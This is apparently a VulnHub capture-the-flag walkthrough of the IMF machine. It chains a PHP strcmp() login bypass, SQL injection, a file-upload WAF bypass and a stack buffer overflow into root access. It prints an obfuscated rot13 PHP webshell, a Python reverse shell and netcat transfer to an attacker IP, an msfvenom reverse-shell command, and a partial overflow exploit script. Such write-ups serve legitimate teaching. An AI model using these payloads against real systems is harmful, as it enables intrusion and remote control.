# IMF: 1 — Boot2Root Walkthrough

**Platform:** VulnHub  
**Difficulty:** Intermediate  

---

## Overview

IMF (Impossible Mission Force) is a VulnHub boot2root where every flag contains a hint pointing to the next step. The machine covers a lot of ground — passive recon, reading page source carefully, PHP type juggling, SQL injection, file upload filter bypass, remote code execution, and finally a stack-based buffer overflow to get root. It's a great machine for chaining small findings into a full compromise.

This writeup is intentionally detailed about where things went wrong and why, not just what the final answer was.

---

## Step 1: Finding the Machine

First thing is finding the target IP on the local network.

```bash
nmap -sn 192.168.0.0/24
```

Once I had the IP, I ran a version scan to see what services were exposed.

```bash
nmap -sV 192.168.0.136
```

Only HTTP was open. Visited the IP in the browser and got the IMF website — a fictional intelligence agency landing page.



---

## Step 2: Directory Enumeration

With just a website, the next step is figuring out what paths exist. I ran gobuster with php/txt/bak/zip extensions since it looked like a PHP site.

```bash
gobuster dir -k -u http://192.168.0.136/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,txt,bak,zip
```



Found: `/images`, `/index.php`, `/contact.php`, `/projects.php`, `/css`, `/js`, `/fonts`, `/less`, `/server-status`.

Nothing immediately exciting. I went and visited all of them manually — projects.php and index.php were just static pages. Out of habit I also fuzzed `/images/` itself:

```bash
gobuster dir -k -u http://192.168.0.136/images/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

Nothing there. At this point I started reading each page's source code carefully instead of just looking at the rendered output, which is where things got interesting.

---

## Step 3: Reading Source Code — Flag 2

When you're stuck on a web challenge, always read the raw HTML. Developers leave things in comments, class names, script tags — stuff that doesn't show on the rendered page.

On the homepage, I noticed a comment in the source that I noted down even though I didn't know what to do with it yet.



Then I looked at the JS includes. The filenames themselves looked like base64 strings:



```
ZmxhZzJ7YVcxbVl
XUnRhVzVwYzNS
eVlYUnZjZz09fQ
```

I tried decoding each chunk individually in CyberChef but got garbage. Then I concatenated all three and decoded — still looked weird, it said something like `flag2{...}` but I wasn't sure if it was real. The value inside was another base64 string: `aW1mYWRtaW5pc3RyYXRvcg==`.

Decoding that second layer:



Output: `imfadministrator`

> **Flag 2 found.** The value `imfadministrator` also looked like it could be a path or a password. I filed it away.

I also opened the actual `.js` files to see if there was anything inside them — they were completely normal vendor libraries. The flags were only in the filenames.

---

## Step 4: Contact Page — Flag 1

`/contact.php` had a form with email, name, and comments fields.



I tested it normally first — submitted it, nothing happened, just page reload. Then I tried putting `'` in the fields to see if anything broke. Nothing. I tried SQL injection, XSS, command injection, LFI/RFI in every field. The app absorbed everything silently with zero error output, which is actually good security practice for a contact form — but also means the form probably wasn't the attack surface.

What I should have done immediately was look at the source. When I finally did:



There were base64 strings hidden inside div class attributes in the HTML. `==` at the end is a classic base64 giveaway. Decoding one of them:



Output: `allthefiles`

> **Flag 1 found.** The source also had staff emails visible in the HTML: `rmichaels@imf.local` — Roger S. Michaels, Director. Username noted.

The lesson here is: stop trying to break the inputs before you've actually read the page source. The flags in this machine were hidden in the markup itself, not behind any injection.

---

## Step 5: Admin Login — Bruteforce Fails, strcmp() Wins — Flag 3

I tried the path `/imfadministrator` and got a login form. Default credentials didn't work. I tried a few obvious ones manually.

Then I went to Burp Suite and started probing. Sending a SQL injection payload in the login returned something interesting in the response — a developer comment left in the HTML:

```html
<!-- I couldn't get the SQL working, so I hard-coded the password.
     It's still mad secure through. - Roger -->
```



So SQL injection on the login wasn't going to work — the password was hardcoded, not pulled from a database. I confirmed the username `rmichaels` by noticing the error message changed: wrong username gives `"Invalid username"`, correct username with wrong password gives `"Invalid password"`. That kind of difference tells you the username exists.



I then tried brute-forcing the password with Hydra:

```bash
hydra -l rmichaels -P /usr/share/wordlists/rockyou.txt 192.168.0.136 \
  http-post-form "/imfadministrator/:user=^USER^&pass=^PASS^:Invalid password"
```

Nothing found. Rockyou didn't have it. That was time wasted.

The developer comment said "hard-coded" — meaning `strcmp()` comparing input against a literal string in PHP code. After some research I found a PHP type juggling vulnerability in `strcmp()`.

**How the strcmp() bypass works:**

PHP's `strcmp()` is meant to compare two strings. It returns `0` if they're equal, and non-zero otherwise. The login logic probably looks something like this:

```php
if ($user == "rmichaels" && strcmp($pass, "secretpassword") == 0) {
    // logged in
}
```

The problem is that PHP's `strcmp()` has undefined behavior when you pass it a non-string type — specifically an array. When you call `strcmp(array, "string")`, PHP returns `NULL`. And in PHP's loose comparison, `NULL == 0` is `true`.

So if you send `pass[]=anything` instead of `pass=anything`, PHP interprets `pass` as an array. `strcmp()` gets an array as its first argument, returns `NULL`, and `NULL == 0` passes the check.

This only works because the code uses `==` (loose comparison) instead of `===` (strict comparison). If it was `strcmp(...) === 0`, an array would return `NULL` which doesn't strictly equal `0`, and the bypass would fail.

In Burp Repeater, I changed the POST body from:

```
user=rmichaels&pass=testing
```

to:

```
user=rmichaels&pass[]=testing
```

![Burp Repeater showing the strcmp bypass request with pass[] array notation](images/ss-11.png)

It worked. The response contained the flag and a link to the CMS:



> **Flag 3 found.** `continueTOcms` — pointed straight at the next step.

---

## Step 6: CMS SQL Injection — Flag 4

The CMS loaded at `cms.php?pagename=home`. URL parameter on first load — that's a classic SQL injection candidate.



I sent the request to Burp Repeater and appended a `'` to the `pagename` value. The response immediately threw a raw PHP warning:

```
Warning: mysqli_fetch_row() expects parameter 1 to be mysqli_result,
boolean given in /var/www/html/imfadministrator/cms.php on line 29
```



A `boolean given` error from `mysqli_fetch_row()` means the query failed — the injected `'` broke the SQL syntax. This is a clear SQL injection. The app is taking the `pagename` value and putting it directly into a query without sanitization.

I saved the request to a file and passed it to sqlmap:

```bash
sqlmap -r request.txt --dbs
```



Five databases: `admin`, `information_schema`, `mysql`, `performance_schema`, `sys`. The `admin` database was the interesting one. Dumping its tables revealed a `pages` table with page names and their HTML content. The entries included a page called `tutorials-incomplete`.

Navigating to it:



There was a QR code embedded in the whiteboard image in the bottom corner. I scanned it using Google Lens:



> **Flag 4 found.** `uploadr942.php` — the name of the upload page, which was also listed in the database dump as "Under Construction."

---

## Step 7: File Upload WAF Bypass & RCE — Flag 5

Navigating to `/imfadministrator/uploadr942.php`:



I tested normal behavior first — uploading a regular `.jpg` worked fine. Then I tried uploading a `.php` file with a basic webshell. Immediately rejected:



So it checks file type. But is it checking the extension, the MIME type, or the actual file content (magic bytes)?

I tested further by renaming my PHP file to `.jpg` — still rejected. That ruled out extension-only checking. The server is reading the file content. Every file format has "magic bytes" — a specific sequence of bytes at the start that identifies the format. For GIF files that's `GIF89a` or `GIF98`. For JPEG it's `\xff\xd8\xff`.

I prepended `GIF98` to my PHP file to fake the magic bytes. Uploaded — it got past the type check. But then a different error:

```
Error: CrappyWAF detected malware. Signature: system php function detected
```

There's a WAF doing keyword matching on the file content. It's blocking `system`, `eval`, `fsockopen` and other dangerous PHP function names. So I can't just use a regular webshell.

The fix: obfuscate the function call so the string `"system"` never literally appears in the file.

`str_rot13("flfgrz")` evaluates to `"system"` at runtime (rot13 of `flfgrz` is `system`), but the string `system` never appears in the source code — so the WAF doesn't catch it.

Final payload:

```
GIF98
<?php $f = str_rot13("flfgrz"); $f($_GET["cmd"]); ?>
```

Line 1 is the GIF magic bytes — fakes the file format check.  
Line 2 is the webshell — `str_rot13("flfgrz")` becomes `system` at runtime, then calls it with the `cmd` GET parameter.



Upload succeeded. Now where did it go? The response page source had a random filename in an HTML comment:



Random filenames are a common technique to prevent overwriting and make files harder to guess. But I still needed to find what directory they're stored in. Another gobuster run, this time inside `/imfadministrator/`:

```bash
gobuster dir -k -u http://192.168.0.136/imfadministrator/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```



Found `/uploads`. I accessed the file directly and added `?cmd=whoami`:

```
http://192.168.0.136/imfadministrator/uploads/e679383f85a3.gif?cmd=whoami
```



The output `www-data` confirmed command execution. The `GIF98` at the start is just the magic bytes being rendered as text — the actual command output is `www-data`.

With RCE confirmed, I set up a Netcat listener and sent a Python reverse shell through the `cmd` parameter:

```
python3 -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.0.205",542));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
subprocess.call(["/bin/sh","-i"])'
```



Shell landed as `www-data`. In the same uploads directory there was a `flag5.txt`.

> **Flag 5 found.** `agentservices` — hinting at a service or binary named "agent."

Upgraded the shell to a proper TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Step 8: Finding the Agent Service

The flag said `agentservices` so I checked for a running process first:

```bash
ps aux | grep agent
```

Nothing. Not running as a visible process. I ran linpeas to enumerate the machine properly:

```bash
./linpeas.sh
```

It found a binary at `/usr/local/bin/agent`:



And an xinetd config entry:



This is important. **xinetd** is a super-server daemon — it listens on a port and spawns the configured binary whenever a connection comes in. The config showed:

- `user = root` — the binary runs with root privileges
- `server = /usr/local/bin/agent` — this is the binary
- `port = 7788` — it listens here

So there's a root binary accepting network connections on port 7788. That's a very high-value target.

---

## Step 9: Reverse Engineering with Ghidra

I tried `strings /usr/local/bin/agent` to look for hardcoded values, but got nothing useful. I needed to actually decompile it.

I transferred the binary to my machine using Netcat:

```bash
# On attacker machine — receive
nc -lvp 4444 > agent

# On target machine — send
nc 192.168.0.205 4444 < /usr/local/bin/agent
```

Then opened it in Ghidra. The decompiler showed the authentication function generating the agent ID dynamically:

```c
asprintf(&local_28, "%i", 0x2ddd984);
```



`0x2ddd984` in decimal is `48093572`. That's the agent ID.

I also analyzed all the functions in Ghidra before touching the live service — you can read exactly what each menu option does without running anything. This is how I spotted the vulnerability before even running the binary.

---

## Step 10: Running the Agent

Back on the target, I ran the agent directly:



Entered agent ID `48093572`:



Four options: Extraction Points, Request Extraction, Submit Report, Exit.

The `Submit Report` function (option 3) is what Ghidra showed had the vulnerability. The decompiled code:

```c
char * report(void) {
    char local_a8[164];
    printf("\nEnter report update: ");
    gets(local_a8);
    printf("Report: %s\n", local_a8);
    puts("Submitted for review.");
    return local_a8;
}
```

`gets()` reads from stdin into a fixed buffer with **no bounds checking whatsoever**. It will keep reading until it hits a newline, no matter how much data you give it. The buffer is 164 bytes — but you can write 10,000 bytes into it and `gets()` won't stop you. This is a textbook stack buffer overflow.

---

## Step 11: Buffer Overflow — Getting Root

### How a Stack Buffer Overflow Works

When a function is called, the CPU needs to remember where to return after the function finishes. It saves that return address (called **EIP** — Extended Instruction Pointer) on the stack. The stack layout for the `report()` function looks like this:

```
Higher addresses
┌─────────────────────┐
│  Return address (EIP) │  ← where CPU jumps after function returns
├─────────────────────┤
│       EBP (4 bytes)   │  ← saved base pointer
├─────────────────────┤
│                       │
│   char local_a8[164]  │  ← our buffer, grows UPWARD
│                       │
└─────────────────────┘
Lower addresses
```

If we write exactly 164 bytes, we fill the buffer cleanly. If we write 165+, we start overwriting EBP. If we write 169+, we start overwriting EIP itself.

The trick: overwrite EIP with an address pointing to our shellcode. When the function returns, the CPU reads EIP, jumps to our address, and executes our code — which in this case is a reverse shell running as root (because the service runs as root via xinetd).

### Finding the Exact Offset

Guessing offsets is impractical. The standard approach is a **cyclic de-Bruijn pattern** — a sequence where every 4-byte substring is unique. When the binary crashes, you read what's in EIP and look up exactly where in the pattern that 4-byte value was. That tells you precisely how many bytes to write before you hit EIP.

```bash
gdb ./agent
```



I ran the binary in GDB, went through the menu to option 3, and pasted the cyclic pattern as input:

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3...
```

Crash:



EIP = `0x41366641`. Converting those bytes to ASCII (little-endian): `Af6A`. I found `Af6A` in the pattern at position 168. So the offset to EIP is 168 bytes.

To verify, I sent exactly 168 A's + 4 B's + 4 C's:

```bash
python3 -c "print('A'*168 + 'BBBB' + 'CCCC')"
```



EBP was full of `0x41414141` (A's) and EIP was `0x42424242` (B's). Confirmed. The `CCCC` landed in ESP — meaning our shellcode can go right after the return address and we can point EIP to the stack.



Layout confirmed: `164 bytes (buffer) + 4 bytes (EBP) + 4 bytes (EIP)`.

### Generating the Shellcode

```bash
msfvenom -p linux/x86/shell_reverse_tcp \
  LHOST=192.168.18.7 LPORT=7778 \
  -f python -b "\x00\x0a\x0d" -o half.py
```

The `-b "\x00\x0a\x0d"` flag tells msfvenom to avoid those bytes in the shellcode — `\x00` is a null terminator that would cut strings short, `\x0a` is newline which would end `gets()` input early, `\x0d` is carriage return, same problem.

### The Exploit Script

The exploit connects directly to port 7788 where xinetd is running the agent as root, authenticates, selects option 3, and sends:

```
[shellcode][padding to fill 168 bytes][return address → shellcode on stack]
```

```python
import socket

remotehost = "127.0.0.1"
remoteport = 7788
agentid = 48093572
menuoption = 3

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((remotehost, remoteport))
client.recv(512)
client.send("{0}\n".format(agentid).encode())
client.recv(512)
client.send("{0}\n".format(menuoption).encode())
client.recv(512)

# shellcode from msfvenom (linux/x86/shell_reverse_tcp)
buf  = b"\xbf\x50\xb7\xdb\x95\xda\xdd\xd9\x74\x24\xf4\x58"
buf += b"\x2b\xc9\xb1\x12\x31\x78\x12\x83\xe8\xfc\x03\x28"
# ... (rest of shellcode)

buf += b"A" * (168 - len(buf))  # pad to reach EIP
buf += b"\x63\x85\x04\x08\n"   # overwrite EIP with address of shellcode

client.send(buf)
```

I transferred the script to the target, started a listener on port 7778, and ran it. The shell came back as root:



Read the flag from `/root/Flag.txt`:



> **Flag 6 found.** `Gh0stProt0c0ls`

And the bonus ending message:



---

## Summary of the Attack Chain

```
Network scan
    └── HTTP open → website
            └── Gobuster + source reading → base64 in JS filenames → flag2 → /imfadministrator
                    └── Contact page source → base64 in HTML → flag1
                            └── Admin login → strcmp() bypass → flag3 → IMF CMS
                                    └── CMS pagename parameter → SQL injection → sqlmap → flag4 → /uploadr942.php
                                            └── File upload bypass (magic bytes + rot13 WAF evasion) → RCE → reverse shell
                                                    └── flag5 → /usr/local/bin/agent via xinetd (root)
                                                            └── Ghidra → agent ID + buffer overflow in report() → root shell → flag6
```

## What I Learned

**Read source code before testing inputs.** Flags 1 and 2 were both in the page source — HTML class attributes and JS filenames. No injection needed, just reading.

**Error message differences matter.** "Invalid username" vs "Invalid password" confirmed the username existed without needing to brute-force it.

**Brute-forcing isn't always the answer.** Hydra on rockyou.txt found nothing because the password was hardcoded in PHP. The vulnerability was in the comparison logic, not the password strength.

**Signature-based WAFs are weak against obfuscation.** The "CrappyWAF" blocked `system`, `eval`, `fsockopen` by keyword. One `str_rot13()` call bypassed all of it. Real-world WAFs are more sophisticated but the same principle applies.

**Always check xinetd configs during post-exploitation.** `/etc/xinetd.d/` is a blind spot that often hosts legacy services running as root.

**`gets()` should never be used.** It has no bounds checking by design. Any binary using `gets()` is almost certainly exploitable with a buffer overflow. `fgets()` with a size limit is the safe alternative.

---

*Reference for the buffer overflow section: [Buffer Overflows Made Easy by The Cyber Mentor](https://www.youtube.com/watch?v=ncBblM920jw)*
